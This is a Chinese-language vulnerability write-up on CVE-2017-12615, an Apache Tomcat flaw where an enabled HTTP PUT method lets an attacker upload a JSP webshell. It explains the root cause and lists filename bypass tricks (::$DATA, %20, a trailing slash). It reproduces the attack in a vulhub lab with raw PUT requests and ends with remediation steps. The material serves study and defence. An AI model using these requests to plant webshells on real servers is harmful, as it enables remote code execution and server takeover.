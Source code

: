 #### CVE-2017-12615

##### 漏洞描述

远程代码执行漏洞(CVE-2017-12615)。当存在漏洞的Tomcat 运行在 Windows 主机上，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。

##### 影响范围

Apache Tomcat 7.0.0 – 7.0.79

##### 漏洞原理

启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false）,可任意上传恶意文件至服务器端

默认`readonly`为`true`，也就是无法进行PUT、DELETE行为

````
conf/web.xml		//文件内容
````

![image-20200813095843352](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813095843352.png)

这个CVE漏洞涉及到 DefaultServlet，DefaultServlet作用是处理静态文件，同时DefaultServlet可以处理PUT或DELETE请求，默认配置如图2：

![image-20200813100218371](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100218371.png)

可以看出即使设置readonly为false,默认tomcat也不允许PUT上传jsp和jspx文件，因为后端都用org.apache.catalina.servlets.JspServlet来处理jsp或是jspx后缀的请求，而JspServlet负责处理所有JSP和JPSX类型的动态请求，从代码没有发现处理HTTP PUT类型的操作, 所以可知PUT以及DELTE等HTTP操作由DefautServelt实现。因此，就算我们构造请求直接上传JSP webshell显然是不会成功的。该漏洞实际上是利用了windows下文件名解析的漏洞来触发的。根本是通过构造特殊后缀名，绕过Tomcat检测，让Tomcat用DefaultServlet的逻辑处理请求，从而上传jsp webshell文件。

绕过方式：

Windows：
1、利用/shell.jsp::$DATA的方式绕过  
2、/shell.jsp%20，空格绕过  
3、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/  
Linux：  
1、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/

##### 漏洞条件

`readonly`设置为`false`时会导致攻击者上传任意恶意文件。

##### 漏洞检测

漏洞环境使用[P牛docker](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)镜像验证。

Tomcat version: 8.5.19

将readonly参数设置为false时，即可通过PUT方式创建一个JSP文件，并可以执行任意代码。修改部分如下。

1、readonly默认值为true，手动将其改为false，在`conf/web.xml`中手动添加红色方框类内容。

添加如下：

```xml
				<init-param> 
            <param-name>readonly</param-name> 
            <param-value>false</param-value> 
        </init-param>
```

![image-20200813100605923](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100605923.png)

2、修改请求头并传递post数据

```
PUT /shell.jsp HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

![image-20200813131648712](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131648712.png)

由上图看到提示404，说明JspServlet负责处理所有JSP和JPSX类型的动态请求，不能够处理PUT方法类型的请求。会被过滤掉。

此时可以利用上面介绍的绕过方式

利用文件解析漏洞采用PUT方式上传jsp webshell文件。其中文件名设为/shell.jsp/。（如果文件名后缀是空格那么将会被tomcat给过滤掉。）

```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

下图所示修改shell.jsp/即可上传成功

![image-20200813131744168](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131744168.png)

文件访问

![image-20200813133423171](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813133423171.png)

shell管理

![image-20200813134428832](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813134428832.png)

##### 漏洞修复

1、删除web.xml文件中readonly属性的值为true或直接删除

2、更新至官方最新

